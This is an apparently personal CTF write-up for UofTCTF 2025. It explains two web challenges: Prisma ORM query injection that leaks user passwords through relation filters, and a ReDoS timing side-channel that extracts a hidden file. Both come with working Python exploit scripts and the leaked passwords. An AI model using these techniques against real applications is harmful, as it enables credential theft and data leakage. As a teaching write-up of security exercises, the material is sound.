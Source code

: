 ```yaml
---
title: "UofTCTF 2025"
date: 2025-02-12T12:00:00+08:00
description: "local idiot uses binary search in web chal"
categories: CTF
---
```


~~ill wriet this in like 12 hours idk~~ its now 1 month later masterful procrastination

# Prismatic Blogs
## overview
we're provided with two endpoints: /api/login/ and /api/posts/\
the service uses prisma database and initialize 4 users with randomized password\
our flag is in one of the 4 users' post, except it isn't published

we can't really do much with /login/, so lets check /posts/:
```js
app.get(
  "/api/posts",
  async (req, res) => {
    try {
      let query = req.query;
      query.published = true;
      let posts = await prisma.post.findMany({where: query});
      res.json({success: true, posts})
    } catch (error) {
      res.json({ success: false, error });
    }
  }
);
```
notice that our query is directly passed into findMany without any sanitizations. can we exploit that?

## solving
the key is at [this blog post](https://www.elttam.com/blog/plorming-your-primsa-orm/):\
since Post and User are linked together, we can exploit **many-to-many relationships** and leak password characters
e.g. `posts?author[name][startsWith]=White&author[password][startsWith]=a`

however since the database uses sqlite, making startsWith not support case sensitivity, we can't do much:
> By default, text fields created by Prisma Client in SQLite databases do not support case-insensitive filtering. **In SQLite, only case-insensitive comparisons of ASCII characters are possible.**

at that time I thought the only way is just do exact matches like `equals` or `in`, since they are case sensitive\
so i used... binary search... probably too overkill
```py
import requests
import time
import itertools

baseURL = 'http://35.239.207.1:3000/api/posts?author[name][startsWith]=s'
#White, Bob, Tommy, Sam

def meow(guess):
    url = guess
    response = requests.get(url)
    return response.json()['posts'] != []

known = 'AIIR7DXG3EARBQU'
characters = list(known)
combos = [''.join(combo) for combo in itertools.product(*[(char.lower(), char.upper()) if char.isalpha() else (char,) for char in characters])]

while len(combos) >= 2:
    payload = baseURL
    queue = []
    
    for i in range(len(combos)):
        guess = f'&author[password][in][]={combos[i]}'
        payload += guess
        queue.append(combos[i])

        if len(payload + guess) <= 12300 and len(queue) <= len(combos)//2 and i != len(combos)-1:
            continue

        print(f"Guessing {len(queue)} items: {queue[0]}...{queue[-1]} ({i-1}/{len(combos)})")
        if meow(payload):
            if len(queue) == 1:
                print(f'pass: {combos[i]}')

            combos = queue
            break
        
        queue = []
        payload = baseURL
```
finally we get each user's password:
white - `3PCTWJFABWPLO6QNGGS1P4`
bob - `8AXCGMISH5ZN59RSXJM`
tom - `OZUSYFPSXLWZUIPOYWETQ9`
sam - `AIIR7DXG3EARBQU`
and in bob's posts we login and find the flag:
![](images/blog.png)
flag: **`uoftctf{u51n6_0rm5_d035_n07_m34n_1nj3c710n5_c4n7_h4pp3n}`**

post ctf i realized i can just use `lt` to figure out the casing lmao

# CodeDB
## overview
we're given a codebase searching service, and we can query in plaintext or regex. simple as that\
our flag.txt is also one of the codefiles, except we cant see it:
```js
function initializeFiles() {
  const files = fs.readdirSync(CODE_SAMPLES_DIR);
  files.forEach(file => {
    filesIndex[file] = {
      visible: file !== 'flag.txt',
      path: path.join(CODE_SAMPLES_DIR, file),
      name: file,
      language: LANG_MAP[path.extname(file)] || null
    };
  });
  //...
```
there's two directories: /view/ do check for post visibility, so we're left with /search/

/search/ passes our query into searchWorker.js with a timeout of 1000ms\
which it checks query against every file, then filters by post visibility\
finally it returns the results, or errors if there's any.

since flag.txt is accessed before it's checked for visibility, can we do something in this timeframe?

## solving
i came across [this post about ReDoS](https://blog.huli.tw/2023/06/12/en/redos-regular-expression-denial-of-service/) eventually\
simply put, if i had a query `/(?=uoftctf{a).*.*.*.*.*!!!!/`, depending on the content of flag.txt:
- if the 1st letter isnt `a`, since regex already knows it won't match, the rest will be ignored for optimization, taking around ~50ms
- if its `a`, regex still doesn't know whether the part later matches, so it will execute the next part, which takes relatively more time (~110ms)

which i did this:
```py
import requests
import time

url = 'http://34.162.172.123:3000/search'

def send_request(guess):
    data = {"query": f"/(?={guess}).*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*!!!!/", "language": "All"}
    response = requests.post(url, json=data)
    return response.elapsed.total_seconds() * 100

charlist = list("{}_e3a4ri1o0t7ns25lcudpmhg6bfywkvxzjq89?!")

flag = 'uoftctf{'
while flag[-1] != '}':
    averages = []
    for ch in charlist:
        time_diffs = []
        for i in range(3):
            diff = send_request(flag + ch)
            time_diffs.append(diff)
        time_diffs.remove(max(time_diffs)) #remove outlier

        average = sum(time_diffs)/len(time_diffs)
        averages.append(average)
        print(f'/(?={flag+ch}).*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*.*!!!!/: {average}ms')
        
    flag += charlist[averages.index(max(averages))]
```
originally the time differences were inextinguishable but they fixed it. lol?
![](images/codedb.png)
flag: **`uoftctf{why_15_my_4pp_l4661n6_50_b4dly??}`**

# end yap
couldve solved the vault chal too if only i realized e isnt 65537 lmao